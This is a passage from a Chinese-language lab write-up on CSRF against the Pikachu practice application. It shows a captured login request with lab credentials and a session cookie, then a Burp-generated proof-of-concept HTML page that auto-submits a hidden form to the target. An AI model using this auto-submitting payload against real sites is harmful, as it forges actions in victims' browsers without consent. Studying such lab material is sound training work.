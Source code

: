 <img src="PictureFile/【Web】TOP漏洞.assets/image-20231025200628348.png" alt="image-20231025200628348" style="zoom: 67%;" />

数据包内容如下：

```
GET /pikachu/vul/csrf/csrfget/csrf_get_login.php?username=vince&password=123456&submit=Login HTTP/1.1
Host: 192.168.229.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.229.131/pikachu/vul/csrf/csrfget/csrf_get_login.php
Cookie: PHPSESSID=ab3u33vohoh383aj1e9ja3ukff
Upgrade-Insecure-Requests: 1
```

用burp生成csrf Poc：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.229.131/pikachu/vul/csrf/csrfget/csrf_get_login.php">
      <input type="hidden" name="username" value="vince" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="submit" value="Login" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
